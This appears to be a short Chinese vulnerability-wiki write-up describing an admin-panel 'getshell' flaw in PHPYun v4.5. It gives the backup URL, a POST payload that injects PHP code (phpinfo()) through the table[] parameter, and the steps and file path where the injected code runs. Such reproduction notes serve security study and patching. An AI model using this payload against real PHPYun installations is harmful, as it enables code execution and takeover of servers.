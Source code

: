 Phpyun v4.5 后台getshell
========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpyun v4.5

三、复现过程
------------

### payload：

    Url： http://www.0-sec.org/admin/index.php?m=database&c=backup  

    Post： 
    pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111

漏洞复现过程：
首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份

![](/Users/aresx/Documents/VulWiki/.resource/Phpyunv4.5后台getshell/media/rId25.png)

抓包，修改table\[\] 参数-》发送

![](/Users/aresx/Documents/VulWiki/.resource/Phpyunv4.5后台getshell/media/rId26.png)

![](/Users/aresx/Documents/VulWiki/.resource/Phpyunv4.5后台getshell/media/rId27.png)

产生的文件就在uploads/data/plus/bdata/phpyun\_20200312153927/config.phpUrl：访问（这里搭建的时候环境，我默认指向了uploads）

![](/Users/aresx/Documents/VulWiki/.resource/Phpyunv4.5后台getshell/media/rId28.png)
